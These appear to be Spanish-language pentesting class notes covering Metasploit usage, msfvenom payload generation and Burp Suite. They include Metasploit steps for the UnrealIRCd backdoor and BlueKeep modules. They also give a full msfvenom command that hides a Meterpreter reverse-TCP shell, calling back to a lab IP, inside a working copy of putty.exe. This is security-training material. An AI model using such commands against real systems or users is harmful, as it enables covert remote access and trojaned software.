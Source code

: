 ### Ejemplos de comandos de Metasploit
- `set rhost 192.168.157.128`
- `set lhost 192.168.157.130`
- `use unix/irc/unreal_ircd_3281_backdoor`
- `show payloads`
- `set payload cmd/unix/generic`
- `set payload cmd/unix/reverse`
- `exploit`
- `use exploit/windows/cve_2019_0708_bluekeep_rce`

### Comandos importantes dentro de la máquina
- `/etc/passwd`: Muestra los usuarios e información importante.
# Clase práctica día 24 15/10/2024

## Msfvenom
- Es un generador de payloads. Ya no tendremos que usar la consola de metasploit, podremos usar msfvenom para así generar un único payload, y poder usarlo nosotros con un exploit traído de internet o que nosotros hayamos creado.
- También nos puede ayudar a crear backdoors en binarios, o código malicioso escondido dentro de aplicaciones, sin que pierdan su funcionalidad.

#### Comandos msfvenom
- `-p` -> Nos permite generar los payloads.

### Información importante Msfvenom
- **Generación de payloads**: Para generar un payload, tendremos que saber cuál va a ser el payload que necesitamos generar, dependiendo de la vulnerabilidad y lo que necesitemos. En esta clase generamos un payload que nos genera una conexión reversa a través de una shell.
  - En este caso con este comando:
    ```bash
    msfvenom -a x86 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=192.168.157.130 lport=4445 -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe -o puttyX.exe
    ```
    Crearemos una copia del `.exe` putty y le cambiaremos el nombre a puttyX para no confundirnos de cuál tiene el troyano y cuál es el original. También podremos observar que este no perderá su funcionalidad y podrá seguir funcionando sin problema.

# Clase práctica día 25 22/10/2024

# Clase práctica día 26 23/10/2024

# Clase práctica día 27 24/10/2024

## Burpsuite
- Es la herramienta más usada para buscar vulnerabilidades en sitios web. Es un proxy de interceptación, se va a localizar entre el servidor web y nuestro internet. Tendremos que modificar nuestro navegador para su correcto funcionamiento. Puede parar las peticiones que le hagamos a un servidor web. Al tener encendida la interceptación, Burpsuite también puede descubrir apartados de los sitios web, analiza el código fuente del servidor, coge todos los enlaces y nos los muestra a nosotros. También se conoce como spidering o crawling pasivo.
